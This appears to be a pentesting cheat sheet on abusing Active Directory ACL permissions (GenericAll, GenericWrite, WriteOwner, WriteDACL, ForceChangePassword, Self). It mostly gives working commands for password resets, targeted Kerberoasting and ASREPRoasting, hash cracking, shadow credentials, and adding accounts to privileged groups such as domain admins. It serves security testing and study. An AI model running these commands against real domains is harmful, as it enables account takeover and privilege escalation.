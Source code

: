 # ACLs Abuse

> An **ACL is an ordered list of ACEs (access control entry)** that define the protections that apply to an object and its properties. Each ACE identifies a security principal and specifies a set of access rights that are allowed, denied, or audited for that security principal. An object’s security descriptor can contain two ACLs:
>
> * A DACL that identifies the users and groups that are allowed or denied access
> * A SACL that controls how access is audited
>
> When a user tries to access a file, the Windows system runs an AccessCheck and compares the security descriptor with the users access token and evaluates if the user is granted access and what kind of access depending on the ACEs set.

{% embed url="https://lootsec.io/abusing-active-directory-acl/" %}

## DACL

> A DACL, Discretionary Access Control List, will contain details that help identify which user or group has access to an object and who is denied access.
>
> Only the access control lists that define the degree of access for users and groups are called DACLs.

### **GenericAll**

Full rights to the object (add users to a group or reset user's password)

#### **on User**

1. **Change the password** of the user:

```powershell
net user <username> <password> /domain

# from linux
rpcclient -U KnownUsername 10.10.10.192
setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

2. **Targeted Kerberoasting**: You could make the user kerberoastable setting an SPN on the account, kerberoast it and attempt to crack offline:

```powershell
# Set SPN
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
# Get Hash
.\Rubeus.exe kerberoast /user:<username> /nowrap
# Clean SPN
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

# You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
# to get hashes of one or all the users
python3 targetedKerberoast.py -domain.local -u <username> -p password -v
```

4. **Targeted ASREPRoasting**: You could make the user ASREPRoastable by disabling preauthentication and then ASREProast it:

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

### **GenericWrite**

Update object's attributes (i.e logon script)

#### on User

This could be abuse with 3 different technics :

* shadowCredentials (windows server 2016 or +)
* **targetKerberoasting** (password should be weak enough to be cracked)
* logonScript (this need a user connection and to be honest it never worked or unless with a script already inside sysvol)

```bash
# targetKerberoast
targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon

# crack hash
hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force

# shadow credentials
certipy shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'
```

#### **on Group**

Claire has GenericWrite over backups-admins group

```powershell
# add claire to the group !
net group backup-admins claire /add
```

### **WriteOwner**

Change object owner to attacker controlled user take over the object

#### **on User**

Tom has WriteOwner on Claire

```powershell
### Create powershell credential and change credentials. 
### NOTE!! IN A REAL PENTEST YOU WOULD ENABLE REVERSIBLE ENCRYPTION OR MAKE USER KERBEROSTABLE OR SOMETHING ELSE AND NOT CHANGE THE PASSWORD IN A PRODUCTION ENVIRONMENT
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### **WriteDACL**

Modify object's ACEs and give attacker full control right over the object

#### **on User**

You can add new ACLs

```powershell
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
```

### **ForceChangePassword**

Ability to change user's password

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}

# same with powerview
Set-DomainUserPassword -Identity delegate -Verbose

# from linux
rpcclient -U KnownUsername 10.10.10.192
setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

### **Self**

Another privilege that enables the attacker adding themselves to a group.

```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## SACL

> SACLs are used for establishing system-wide security policies for actions such as logging or auditing resource access. The SACL attached to a system, directory, or file object specifies
>
> * Which security principals (users, groups, computers) should be audited when accessing the object
> * Which access events should be audited for these principals
> * Whether a Success or Failure attribute is generated for an access event, depending on the permissions granted in the DACL for the object
